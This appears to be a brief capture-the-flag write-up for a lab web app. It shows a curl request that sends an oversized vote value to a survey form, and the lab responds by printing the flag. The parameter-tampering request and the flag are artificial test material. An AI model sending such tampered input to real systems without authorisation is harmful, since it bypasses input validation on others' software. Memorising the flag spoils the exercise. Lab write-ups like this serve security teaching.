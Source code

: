 There is a page to vote for a member.

The form send a "sujet" and a "valeur".

With cURL, i tried a big value as valeur and the response contains a flag :

curl --location 'http://172.16.91.134/index.php?page=survey' \
--header 'Content-Type: application/x-www-form-urlencoded' \
--data-urlencode 'sujet=5' \
--data-urlencode 'valeur=2222222'

```
<h2 style="margin-top:50px;"> The flag is 03a944b434d5baff05f46c4bede5792551a2595574bcafc9a6e25f67c382ccaa</h2>
```
